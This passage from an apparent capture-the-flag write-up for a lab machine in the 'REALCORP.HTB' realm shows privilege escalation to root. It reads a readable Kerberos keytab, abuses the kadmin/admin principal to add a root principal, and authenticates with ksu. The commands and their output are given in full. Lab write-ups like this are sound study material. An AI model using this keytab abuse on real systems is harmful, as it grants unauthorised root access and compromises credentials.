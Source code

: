 ```bash
[admin@srv01 ~]$ ls -l /etc/krb5.keytab
-rw-r-----. 1 root admin 1403 Dec 19 06:10 /etc/krb5.keytab
```
You see dear `r` letter at the 5th place which stands for __our read permission__'s existence?

Let's see the principals inside `/etc/krb5.keytab`
```bash
[admin@srv01 ~]$ klist -k /etc/krb5.keytab
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
[admin@srv01 ~]$
```

There are `kadmin/admin@REALCORP.HTB` principals, nice!

Now the only thing to do is using [`kadmin`](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html) (Kerberos V5 administration system) to add a `root@REALCORP.HTB` principal which we can use with [`ksu`](https://web.mit.edu/kerberos/krb5-latest/doc/user/user_commands/ksu.html) (Kerberized version of the su program) to authenticate as `root` afterwards...

```bash
[admin@srv01 ~]$
kadmin -r REALCORP.HTB -p kadmin/admin@REALCORP.HTB -k -t /etc/krb5.keytab
add_principal root@REALCORP.HTB
<Enter a password 2 times>
exit
ksu root
<Enter the same password>
```

![](src/root.png)
